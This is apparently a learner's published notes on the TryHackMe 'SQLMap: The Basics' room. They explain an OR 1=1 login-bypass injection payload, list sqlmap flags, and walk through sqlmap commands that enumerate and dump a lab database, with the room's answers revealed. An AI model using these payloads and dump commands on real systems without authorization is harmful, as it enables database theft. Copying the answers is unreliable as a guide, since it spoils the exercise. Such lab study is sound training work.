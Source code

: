 ```yaml
---
{"dg-publish":true,"permalink":"/try-hack-me/rooms/sqlmap-the-basics/","created":"2024-11-04T19:56:39.272-05:00","updated":"2025-03-12T00:21:28.645-04:00"}
---
```


# Task 2 - SQL Injection Vulnerability

- Usual SQL query from user to data base is sent like so,
	- `SELECT * FROM users WHERE username = 'John' AND password = 'Un@detectable444';`
	- Needs both username and password to be correct in order to go through
- If user input not validated/sanitized, attackers can input direct SQL queries that get executed in the database
- They can type in the following fields for the example above
	- Username: John
	- Password: abc' OR 1=1;-- -
	- The SQL query now becomes:
		- `SELECT * FROM users WHERE username = 'John' AND password = 'abc' OR 1=1;-- -';`
		- The OR condition here with the 1=1 statement makes the whole query true, regardless of the password being inputted (abc)
		- "-- -" at the end comments out anything after the 1=1, allowing the query to get executed right away
		- Ensure to use single quotes to make the last part separate instead of one whole string  

> [!Question]
> **Which boolean operator checks if at least one side of the operator is true for the condition to be true?** 

> [!Success] Answer
> OR

> [!Question]
> **Is 1=1 in an SQL query always true? (YEA/NAY)** 

> [!Success] Answer
> Answer: YEA
# Task 3 - Automated SQL Injection Tool

| Flag     | Description                                                                                  |
| -------- | -------------------------------------------------------------------------------------------- |
| --wizard | Guides you through each step to ask questions in order to finish scan, perfect for beginners |
| --dbs    | Extract all databases names                                                                  |
| -D       | Used to extract information about tables from set database, D database_name --tables         |
| --dump   | Extracts records from tables                                                                 |
| -u       | Used to provide URL                                                                          |
| --tables | Extracts all tables                                                                          |

- HTTP Get-based testing    
	- Look for vulnerable URL/requests, mainly those with GET parameters
	- Vulnerable to SQL injection
- Can also do POST-based testing    
	- Need to intercept POST request with -r
	- Can save to text file
	- Example, `sqlmap -r intercepted_request.txt` 

> [!Question]
> **Which flag in the SQLMap tool is used to extract all the databases available?** 

> [!Success] Answer
> --dbs

> [!Question]
> **What would be the full command of SQLMap for extracting all tables from the "members" database? (Vulnerable URL: http://sqlmaptesting.thm/search/cat=1)** 

> [!Success] Answer
> `sqlmap -u http://sqlmaptesting.thm/search/cat=1 -D members --tables`
   
# Task 4 - Practical Exercise

  If the page URL is not showing the GET parameters, can inspect page source and go to the Network section to find all requests
  
![The in-browser tools in the website that allow us to see the URL with parameters.|1000](/img/user/TryHackMe/THM_Images/749c11b0d8fccaea899c4902ee4732e4.png)

> [!Question]
> **How many databases are available in this web application?** 

Went to website and tried a random request to spawn the GET record, got to see the HTTP Get request link, [http://10.10.245.244/ai/includes/user_login?email=test&password=test](http://10.10.245.244/ai/includes/user_login?email=test&password=test)

![Exported image|1000](/img/user/TryHackMe/THM_Images/f80555465be20f0c39aae7a62681d668.png)  

Ran the command,

```
sqlmap -u http://10.10.245.244/ai/includes/user_login?email=test&password=test --dbs --level=5. 
```

Said Y,Y,Y,N for the parameters regarding level 5

![Exported image](/img/user/TryHackMe/THM_Images/358d32e53559d823854b64a926ed3c9b.png)  

![Exported image](/img/user/TryHackMe/THM_Images/77110f8198e789535e6ea6b75f08a6a3.png)  

> [!Success] Answer
> 6

> [!Question]
> **What is the name of the table available in the "ai" database?** 

Ran the command, 

```
sqlmap -u 'http://10.10.245.244/ai/includes/user_login?email=test&password=test -D ai --tables
```

![Exported image](/img/user/TryHackMe/THM_Images/c0ae81e31bcc2e146548e8075da07205.png)  

> [!Success] Answer
> user

> [!Question]
> **What is the password of the email test@chatai.com?** 

Ran the command, 

```
sqlmap -u http://10.10.245.244/ai/includes/user_login?email=test&password=test -D ai --tables --dump
```

![Exported image](/img/user/TryHackMe/THM_Images/e160f2cd554b2bc6b85e3255cd6983d0.png)  

> [!Success] Answer
> 12345678
          

